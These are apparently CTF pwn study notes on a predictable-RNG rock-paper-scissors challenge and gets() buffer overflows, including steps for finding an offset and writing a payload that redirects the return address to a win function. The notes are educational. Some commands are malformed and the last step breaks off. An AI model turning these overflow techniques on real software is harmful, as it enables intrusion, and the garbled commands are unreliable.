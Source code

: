 ### EXAMPLES

---

### EX-1

Pwn question - Win 5 times in a row in rock paper scissor for the flag. Count based pwning challenge.
Vulnerability due to srand() which generates randok choices and makes it hard to infiltrate into the system.

Soln - Write a script which takes input the same as the computer to match it's output on every round.

---

### EX-2

Buffer overflow - Gets() function is vulnerable and stores characters beyond the specified size as well.
Better to use fgets(), if gets() function is in the source code, try to overflow the function with a larger input.

---

### EX-2

Buffer Overflow 2- Sometimes, just overflowing the function isn't enough. We need to control the return address and point it towards the flag.

Steps -

1. Info func
2. disassemble main, vuln, flag etc
3. run the program and overflow it
4. Find the offset
5. cyclic 100
6. Let's say offset is 44 now
7. python3 'print "A" * 44'
8. Now, we want to return the address of win function for instance, the string after 44 will reach the EIP and hence, the function could be executed.
9. So python3 'print ("A" * 44 +  "\xf6\x91\x49\x80")' > payload
10. echo "fake_flag" > flag.txt
11. ./vuln < payload
12. If it doesn't work try with the very next address from 

---
